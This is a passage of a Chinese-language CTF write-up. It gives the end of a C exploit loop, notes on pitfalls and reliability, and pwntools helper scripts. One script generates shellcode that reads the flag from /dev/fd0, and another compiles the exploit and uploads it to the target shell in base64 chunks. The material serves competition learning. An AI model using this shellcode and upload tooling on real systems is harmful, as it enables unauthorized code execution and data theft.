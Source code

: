 ```c
        memset(res, 0xcc, PAGE_SIZE);
        if (i%50 == 0) printf("%d\n", i);
        if (match()) break;
    }
    return 0;
}
```

虽然思路很清晰, 但是写exp的过程中还是踩了很多坑:

1. PAGE_SIZE的调整, 感觉就是玄学...
2. printf的位置, 在发现needle和写swap文件之间加了printf就不行. 可能因为printf用了syscall.
3. 这个exp成功率也不是100%, 差不多30%左右吧..
4. 直接`./run.sh`不行; `./ynetd -t 300 -lt 30 -lm -1 /home/ctf/run.sh` 行....
5. 在shell里面执行exit 不会退出, 这个导致一开始想的修改init返回时的代码失败
6. gdb调试时想断在busybox 的 `init_main`函数总是断不下来, 导致看不了init进程的栈上的值. 不知道是不是哪儿操作不对...

最后附上一些辅助脚本:

```python
#!python3
"""generate shellcode
不能用execve("/bin/sh"), 因为/bin/sh是一个指向busybox的符号连接
而busybox已经被我们修改了
"""
from pwn import *

context.arch = 'amd64'
scg = shellcraft.amd64.linux
#启动脚本中 -fda flag.txt 参数将 flag.txt作为一个软盘文件导入
sc_asm = scg.open("/dev/fd0", 0)
sc_asm += scg.read("rax", 0x704700, 0x100) # bss of busybox
sc_asm += scg.write(1, 0x704700, 0x100)
sc = asm(sc_asm)
res = "unsigned char sc = {" + ", ".join(map(lambda x:hex(x), unpack_many(sc, 8))) +"}"
print(res)
print(sc_asm)

```

```python
#!python3
"""上传,编译"""
from pwn import *

def compile_exp(exp_source, exp_dst="./exp"):
    # sudo apt install musl-tools
    cmd = f"musl-gcc -w -s -static {exp_source} -o {exp_dst}"
    print(cmd)
    os.system(cmd)

def exec_cmd(p, cmd):
    p.sendline(cmd)
    p.recvuntil("$ ")

def upload(p, exp_file):
    # os.system("rm ./benc; rm ./bout")
    with open(exp_file, "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data).decode()
    open("./exp_base64", "wb").write(encoded.encode())
    p.recvuntil("$ ")
    for i in range(0, len(encoded), 300):
        print("%d / %d" % (i, len(encoded)))
        exec_cmd(p, "echo -n \"%s\" >> /tmp/benc" % (encoded[i:i+300]))
    exec_cmd(p, "cat /tmp/benc | base64 -d > /tmp/bout")
```